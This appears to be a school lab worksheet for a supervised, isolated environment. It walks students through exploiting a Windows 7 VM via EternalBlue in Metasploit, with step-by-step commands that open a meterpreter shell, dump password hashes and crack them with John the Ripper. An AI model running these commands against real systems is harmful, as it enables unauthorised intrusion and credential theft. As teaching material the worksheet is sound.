

# EternalBlue

## Introduction

In this session we will be using Kali Linux and Metasploit to gain control of a vulnerable Windows machine on our local network. Once we have gained control of the machine we will dump the password hashes and then crack them using JohnTheRipper.

| ❗ REMINDER                                                                                                                                                                                                                                                                                            |
| :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| All activities in this worksheet must only be performed in the supervised, isolated lab environment provided by your teacher. Attempting these techniques on any real network or device without authorisation is illegal under the Computer Misuse Act 1990 and could result in criminal prosecution. |

## Part 1 - Gaining Control
Due to vulnerabilities, we can gain control without having to do anything on the Windows 7 machine. Leave it running in the background and return to your Kali Linux VM.

1. Firstly, we need to get the IP address of our Windows machine, for this we use NMAP:
```bash
    # Scan the network IP range and find other VMs IPs 
    sudo nmap -sP 192.168.1.0/24
```

2. Open a terminal and open the msfconsole, then search for the EternalBlue exploit package:

```bash
    msfconsole
    search eternalblue
```

3. This will list all the variants of the exploit scripts that have been developed. We are going to be using the main exploit that will detect the Windows version by default.

```bash
    use 0
```

4. Next, using the IP address we found earlier, we set the IP address of the target machine on the network. 

```bash
    # Set the IP of our Windows machine as the target
    setg RHOSTS 192.168.1.XXX
```

5. Then, run the exploit and let the fun begin:

```bash
    run
```

You should now be greeted with the meterpreter shell, ready for you to execute commands on your target machine! 

*Note:* This can sometimes take multiple attempts to run successfully due to how the underlying exploit functions.

---

## Part 2 - Dumping and Cracking Passwords

Now that we have administrator access to the remote machine we can start extracting information. 

1. Most important we want passwords, lets get some shall we? Run the following command to gain password hashes for our Windows machine:

```bash
    hashdump
```

Your output should look similar to this, the hash of the password is highlighted in red.:



2. You will be able to see the username that you setup in Windows, along with the hash of your password. The hash of the password is highlighted in red. 

```bash
    nano hashdump.txt
```

3. Once in this file, press Ctrl+Shift+V to paste your hash into nano. Then press Ctrl+X to quit, confirm with "Y".
4. We will now use a program called JohnTheRipper to attempt to brute-force our password hash, we use `--format=nt` to state that it is a Windows NT hash:

```bash
    john --format=nt hashdump.txt
```

And that's it! You've exploited a vulnerability in Windows, gained access to the password hash file, exfiltrated it to your Kali Linux VM and begun to attempt to crack the password!
